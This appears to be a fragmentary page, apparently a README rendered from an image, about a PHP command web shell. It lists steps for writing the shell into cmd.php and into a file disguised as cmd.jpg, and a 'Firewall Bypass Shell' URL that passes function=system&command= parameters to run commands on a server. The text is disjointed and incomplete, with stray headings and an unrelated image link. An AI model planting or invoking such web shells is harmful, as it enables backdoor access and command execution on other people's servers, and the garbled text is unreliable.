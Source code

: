 php cmd shell > cmd.php 

jpg cmd shell > cmd.jpg

# Firewall Bypass Shell

view-source:http://localhost/cmd.php?function=system&command=

# Cmd Shell

<img src="https://mir-s3-cdn-cf.behance.net/project_modules/2800_opt_1/4e503384741745.5d66857c6aef5.png" alt="https://mir-s3-cdn-cf.behance.net/project_modules/2800_opt_1/4e503384741745.5d66857c6aef5.png" class="shrinkToFit transparent" width="569" height="366">
